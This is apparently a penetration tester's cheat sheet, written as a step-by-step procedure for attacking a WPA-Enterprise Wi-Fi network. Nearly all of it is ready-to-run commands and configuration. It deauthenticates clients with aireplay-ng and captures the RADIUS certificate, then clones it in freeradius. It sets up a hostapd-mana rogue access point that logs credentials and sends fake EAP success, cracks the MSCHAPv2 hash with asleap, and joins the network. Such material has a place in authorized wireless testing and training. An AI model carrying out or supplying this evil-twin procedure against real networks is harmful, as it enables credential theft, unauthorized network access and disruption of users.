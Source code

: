 ### Setup 

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```


### Identify the network

Identify the network by launching an airodump scan:
```bash
# Look for MGT
sudo airodump-ng wlan0mon
sudo airodump-ng wlan0mon --wps
sudo airodump-ng wlan0mon --band abg --wps --manufacturer
```


### Capture the certificate

Start capture:
```bash
sudo airodump-ng wlan0mon -w /tmp/capture --essid <essid> --bssid <bssid> -c <channel>
```

Deauthenticate client to capture the handshake:
```bash
sudo aireplay-ng -0 0 -a <BSSID> -c <MAC> wlan0mon
sudo aireplay-ng -0 0 -a <BSSID> wlan0mon
sudo aireplay-ng -0 1 -a <BSSID> wlan0mon
```

Open the capture in Wireshark
```bash
wireshark /tmp/capture-01.cap

# Filters
wlan.bssid==<BSSID> && eap && tls.handshake.type == 11
```
![[Pasted image 20250218105025.png]]

For each certificate:
```bash
Right click > Export Packet Bytes > <file>.der
```

Read certificate content:
```bash
openssl x509 -inform der -in cert.der -text
```


### Configure Radius server

```bash
# Install package
sudo apt install freeradius

# Configure certs
sudo su
cd /etc/freeradius/3.0/certs
nano ca.cnf # Modify certificate_authority field to match captured cert
nano server.cnf # Modify server fields to match captured cert

# Generate certs
rm dh
make
make destroycerts # If there are already certs

# Manually generate dh file if make doesn't
sudo openssl dhparam -out /etc/freeradius/3.0/certs/dh 2048
```
>[!info]
>client.crt error is normal


### Configure Rogue AP

```bash
sudo apt install hostapd-mana
```

Configuration file: `/etc/hostapd-mana/mana.conf`
```bash
# SSID of the AP
ssid=Playtronics # CHANGE

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1 # CHANGE
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g # a for 5 GHz

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/output.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

EAP user file: `/etc/hostapd-mana/mana.eap_user`
```bash
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2   "pass"   [2]
```

Start the hostapd-mana server:
```bash
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```


### Deauthenticate

If clients don't automatically connect to our rogue AP, a deauthentication attack may be required:
```bash
# Switch to the appropriate channel
iwconfig wlan0mon channel <channel>
sudo aireplay-ng -0 0 -a <BSSID> -c <MAC> wlan0mon
sudo aireplay-ng -0 0 -a <BSSID> wlan0mon
sudo aireplay-ng -0 1 -a <BSSID> wlan0mon
```


### Crack the hash

Crack the password hash using asleap (command captured from hostapd-mana output)
```bash
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
```


### Connect to the network

Obtain the domain from the wireshark capture:
```bash
tshark -r /tmp/capture-01.cap -Y '(eap) && (eap.identity)' -T fields -e eap.identity
```

Create the connection file:
```bash
network={  
  ssid="<ESSID>"  
  scan_ssid=1  
  key_mgmt=WPA-EAP  
  identity="<DOMAIN>\<USER>"  
  password="<PASSWORD>"  
  eap=PEAP  
  phase1="peaplabel=0"  
  phase2="auth=MSCHAPV2"  
}
```

Connect to the network & request a DHCP IP:
```bash
sudo service NetworkManager start
sudo ifconfig wlan1 up
sudo wpa_supplicant -i wlan1 -c connect.config
sudo dhclient wlan1
```
